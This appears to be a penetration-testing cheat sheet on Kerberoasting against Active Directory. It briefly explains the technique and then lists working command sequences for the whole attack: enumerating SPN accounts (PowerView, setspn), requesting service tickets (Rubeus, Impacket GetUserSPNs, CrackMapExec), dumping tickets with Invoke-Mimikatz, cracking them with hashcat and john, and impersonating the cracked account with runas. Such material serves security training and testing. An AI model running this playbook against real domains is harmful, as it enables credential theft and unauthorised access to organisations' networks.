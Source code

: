 # Kerberoasting

**Kerberosting** is a post-exploitation attack technique that attempts to **obtain a password hash** of an Acrive Directory account that has a **Service Principal Name (SPN)** enabled.\
In such an attack, an authenticated domain user requests a Kerberos ticket for an SPN. The retrieved Kerberos ticket is encrypted with the hash of the service account password affiliated with the SPN. The adversary then works offline to **crack the password hash**, often using brute force technique.\
Once the plaintext credentials of the service account are obtained, the adversary **can impersonate the account owner** and inherit access to any systems, assets or networks granted to the compromised account.

{% hint style="info" %}
**Kerberoasting** is a method of obtaining service account credentials by requesting service tickets from a domain controller and cracking them offline. It allows the attacker to gain access to network resources by using the service account's password hash. **Pass-the-Ticket**, on the other hand, is a technique where an attacker steals a Kerberos ticket-granting ticket (TGT) from a user's session and uses it to impersonate the user to gain access to network resources.
{% endhint %}



#### Methodology:

* **Identify accounts** that have a Service Principal Name (SPN) enabled
* **Request a TGS ticket** for the specified SPN using Kerberos
* **Crack** the password from the TGS ticket.

## Identify Kerberostable account

First we have to detect all user in the domain that has "**Service Principal Name (SPN)**" option **enabled**.

### PowerView (Windows)

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

```powershell
# import the module
powershell -ep bypass
. .\PowerView.ps1
```

<pre class="language-powershell"><code class="lang-powershell"><strong>Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
</strong>Get-NetUser -SPN | select serviceprincipalname
</code></pre>

```powershell
Invoke-Kerberoast
Get-DomainObject -Identity $ACCOUNT_NAME 
```

### setspn.exe (Windows)

**setspn.exe** is a built-in binary. Focus on user accounts.

```powershell
setspn.exe -Q */*
setspn -T $CD_NAME -Q */*
```

<figure><img src="../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>



### kerberost tool (Linux)

{% embed url="https://github.com/skelsec/kerberoast" %}

Install the package with pip:

```bash
pip3 install kerberoast
```

Run this commands:

{% code overflow="wrap" %}
```bash
kerberoast ldap spn 'ldap+ntlm-password://$DOMAIN.local\$USER:$PASS@$DC_IP' -o kerberoastable
```
{% endcode %}



## Get TGS tickets

Once we have a list with all kerberostable account, we can try to get the TGS of the accounts.

### Rubeus.exe (Windows)

{% embed url="https://github.com/GhostPack/Rubeus" %}

Transfer the executable into a WIndows target and run it:

```powershell
.\Rubeus.exe kerberoast /stats
.\Rubeus.exe kerberoast /user:svc_mssql /outfile:
.\Rubeus.exe kerberoast /simple /outfile:hashes.kerberoast
```

### Msfconsole (Linux)

```bash
msf> use auxiliary/gather/get_user_spns
```



### targetedKerberoast

{% embed url="https://github.com/ShutdownRepo/targetedKerberoast" %}

{% code title="Installation" %}
```bash
git clone https://github.com/ShutdownRepo/targetedKerberoast
```
{% endcode %}

{% code title="Usage" %}
```bash
targetedKerberoast.py -v -d 'domain.local' -u 'controlledUser' -p 'ItsPassword'
```
{% endcode %}

### GetUserSPNs.py (Linux)

The Impacket script **GetUserSPNs (Python)** can perform all the necessary steps to request a ST for a service given its SPN and valid domain credentials.

{% embed url="https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py" %}

Copy the script and run this commands:

{% code overflow="wrap" %}
```bash
GetUserSPNs.py -request -dc-ip $DC_IP $DOMAIN.local/$USER -outputfile hashes.kerberoast

# with a password
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $DC_IP
'DOMAIN/USER:Password'

# with an NT hash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip
$DC_IP 'DOMAIN/USER'
```
{% endcode %}

### CrackMapExec

```bash
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --kerberoasting
kerberoastables.txt --kdcHost $DC_IP
```



### setspn (Windows)

{% code overflow="wrap" %}
```powershell
# Get TGSs for all kerberostable accounts
setspn.exe -T $DOMAIN.local -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() } 

# List kerberos tickets in memory
klist
```
{% endcode %}

### PowerView

```powershell
Add-Type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "$SPN" 
```

Once the object has created we can use tool like mimikatz to extract the ticket.

Copy the mimikatz invoke into a file and transfer it into a target machine.

{% embed url="https://github.com/PowershellMafia/Powersploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1" %}

```powershell
# Import the module in powershell
. .\Invoke-Mimikatz.ps1

# extract the tgs tickets from memory
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

This command create a file named with the TGS ticket to crack

<figure><img src="../../../.gitbook/assets/image (168).png" alt=""><figcaption></figcaption></figure>

## Crack the TGS tickets

### tgsrepcrack (.kirbi crack)

{% embed url="https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py" %}

Copy the script above and run it:

```bash
python tgsrepcrack.py /PATH/TO/rockyou.txt $TGS_TICKET.kirbi
```

### .txt output crack

```bash
hashcat -m 13100 -o creds.txt -a 0 ./$RUBEUS_OUTPUT.txt ./rockyou.txt

john --format=krb5tgs --wordlist=.../rockyou.txt $RUBEUS_OUTPUT.txt
```



## Use Cracked Creds

Once we have obtained the credentials from tgs tickets, we can impesonate the hacked account.

```powershell
# spawn a powershell as hacked account
runas /netonly /User:$USER powershell.exe
```







#### Resources:

{% embed url="https://www.picussecurity.com/resource/blog/kerberoasting-attack-explained-mitre-attack-t1558.003" %}









